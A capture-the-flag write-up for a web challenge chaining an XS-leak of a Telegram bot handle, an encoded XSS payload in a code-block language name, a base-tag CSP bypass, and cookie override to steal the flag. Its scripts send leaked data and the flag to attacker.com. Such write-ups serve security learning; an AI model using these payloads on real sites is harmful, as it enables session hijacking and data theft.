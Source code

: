 # Find the telegram bot handle

It's possible to leak the handle of the bot exploiting the `/location` route.

## Script to extract the hadle one character at a time:
```javascript
<script>

name = ''

wins = []

str = '_abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890'
for (var i = 0; i < str.length; i++) {
  c = str.charAt(i)
  console.log('https://telegrambotclient.m0lec.one/locations?search='+name+c)
  r = window.open('https://telegrambotclient.m0lec.one/locations?search='+name +c)
  wins.push(r)
}


setTimeout(() => {
  // Read the number of iframes loaded
    for (var i = 0; i < wins.length; i++) {
        if (wins[i].length>0){
            x = str.charAt(i)
            console.log(x)
            // leak the char
            fetch('https://attacker.com/leak?'+name+x)
        }
        wins[i].close()
    }
    }, 1000);

</script>
```

# XSS in telegram messages

The `/messages` route is vulnerable to xss on the programming language name used for the syntax highlighting feature.

## Payload to send as a telegram message to the bot to exploit the xss:
````
```python id=abc tabindex=1 onfocus=document.write(String.fromCharCode(60,115,99,114,105,112,116,32,115,114,99,61,39,104,116,116,112,115,58,47,47,97,116,116,97,99,107,101,114,46,99,111,109,47,101,118,105,108,46,106,115,39,62,60,47,115,99,114,105,112,116,62))  
ciao
```
````
This payload causes the execution of `https://attacker.com/evil.js` when the bot visits `/messages#abc`.



# Self XSS in the note service

When creating a note, the text value is not escaped.

By bypassing the CSP it's possible to obtain a self-xss on the note app domain.

## Payload:
```
<base href="https://attacker.com">
```

By changing the base address the browser will fetch the scripts in the page from the attacker domain.

These scripts are allowed by the CSP nonce.



# Subdomain takeover

From the xss on the telegram client it's possible to override the session cookie for the note subdomain.

In this way it's possible to exploit the self-xss in the note subdomain and fetch the flag in the same origin.

## Script for cookie override

```javascript
w = window.open('http://note.m0lec.one/note?id=1','flag')
newcookie = 'YOUR NOTE SESSION COOKIE'
document.cookie = 'session=' + newcookie + '; domain=.m0lec.one; path=/note'
document.location = 'http://note.m0lec.one:8080/note?id=2' //self-xss
```

## Script on note subdomain

```javascript
w = window.open('','flag')
flag = w.document.getElementsByTagName('p')[0].innerText
fetch('https://attacker.com/flag?'+flag)
```

